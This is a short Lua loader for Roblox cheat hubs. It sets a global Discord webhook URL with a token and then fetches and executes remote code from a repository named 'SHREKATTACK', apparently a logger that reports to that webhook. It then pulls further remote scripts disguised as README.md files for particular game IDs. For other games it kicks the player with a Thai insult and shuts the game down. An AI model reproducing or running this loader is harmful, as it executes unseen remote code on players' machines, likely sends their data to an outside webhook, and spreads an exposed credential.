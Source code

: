 _G.webhooksdiscord = "https://discord.com/api/webhooks/947370025877127208/osmu7wwABiTa1LK2fJFUuLW9c_3FYsZXFj7tkFsVCgoCkpPZudOZXejzuji5M9tbnQdS"
loadstring(game:HttpGet"https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua")();

local PlaceId = game.PlaceId

if PlaceId == 2753915549 or PlaceId == 4442272183 or PlaceId == 7449423635 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/2ScriptsMucasXHub/main/README.md")();
elseif PlaceId == 3956818381 then
	loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/How/main/README.md")();
elseif PlaceId == 537413528 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/MUCASXHUB-V.Full/main/README.md")();
elseif PlaceId == 6329844902 then
    loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/xMucas/main/README.md")();
elseif PlaceId == 3101667897 then
	loadstring(game:HttpGet"https://raw.githubusercontent.com/amirkil/MUC-/main/README.md")();
else
	game.Players.LocalPlayer:kick("สคริปไม่มีเกมนี้ ไอ้สัส")
	wait(1)
	game:Shutdown()
end
